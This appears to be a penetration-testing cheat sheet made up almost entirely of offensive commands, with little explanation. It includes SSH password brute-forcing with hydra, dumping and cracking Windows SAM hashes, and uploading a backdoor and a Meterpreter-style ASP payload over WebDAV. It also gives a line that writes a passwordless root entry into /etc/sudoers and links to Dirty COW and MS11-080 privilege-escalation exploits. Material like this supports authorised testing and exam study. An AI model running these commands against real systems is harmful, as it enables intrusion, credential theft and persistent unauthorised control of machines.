 ## ENUMERATION

### Find all open ports
```
nmap -sV -Pn -p- -T4 -A <IP>
nmap -Pn -sT -sV -A --script=default,banner -p- <IP>
nmap -n -A -sU -T4 <IP>
```
### Vulnerability Scan
#### eternalblue scan
```
nmap -p445 --script smb-vuln-ms17-010 <IP-range>
```

### linux enumeration 
```
enum4linux -a <IP>
```

## Samba shared folder access
```
smbclient \\\\10.10.10.10\\folder
```

## WEB PENTEST

### enumerate port 80
```
nikto -host http://<IP>
```

### sqlmap with request file
```
sqlmap -r search-test.txt -p param
```
### If PUT method is enabled
```
davtest -move -sendbd auto -url http://$ip
cadaver <IP>
cad> PUT met.asp met.asp
```

## ENCRYPTIONS AND DECRYPTIONS

### Detect the hash type
```
hash-identifier
```

### Password bruteforce using hydra
```
hydra -l bob -p password ssh://10.10.10.1 -t 4
hydra -L user.txt -P pass.txt ssh://10.10.10.1 -t 4
hydra -s <port> -L user.txt -P pass.txt ssh://10.10.10.1 -t 4
```

### samdump2
```
samdump2 SYSTEM SAM -o passwords.key
cat passwords.key | cut -d ":" -f4 >> hashvalue
hashcat -a 0 -m 1000 hashvalue rockyou.txt --force
```

### Online md5 cracker
```
https://www.md5online.org/md5-decrypt.html
```

## LINUX PRIVILAGE ESCALATION

## Check editable crontabs
```
cat /etc/crontab
```

### Shell upgrade
```
echo os.system('/bin/bash')
```

### upgraded it to a pseudo-terminal using python
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

### First do some privilage checking
```
http://www.securitysift.com/download/linuxprivchecker.py
```

### if you can edit sudoers file, just add this line
```
echo 'bob ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers
```

## WINDOWS PRIVILAGE ESCALATION
### Windows File search
```
where /r c:\ proof.txt
```

### Dirty COW Vulnerability
```
https://www.exploit-db.com/exploits/40839
```
### 'afd.sys' Local Privilege Escalation

#### Windows Xp service pack 3 and Windows 2000 service pack 2 is vulnerable to this.
exploit url:
```
https://raw.githubusercontent.com/abatchy17/WindowsExploits/master/MS11-080%20-%20AFD.sys/MS11-080.py
```
video: 
```
https://www.youtube.com/watch?v=rxNziQlk7sA
```

## PORT FORWARDING

## Windows port forwarding
```
netsh interface portproxy add v4tov4 listenaddress=localaddress listenport=localport connectaddress=destaddress connectport=destport
```
## Linux port forwarding
```
ssh -p 9002 -L10000:127.0.0.1:10000 user@<IP2>
ssh -p 9002 -L10000:<IP1>:22 user@<IP2>
```
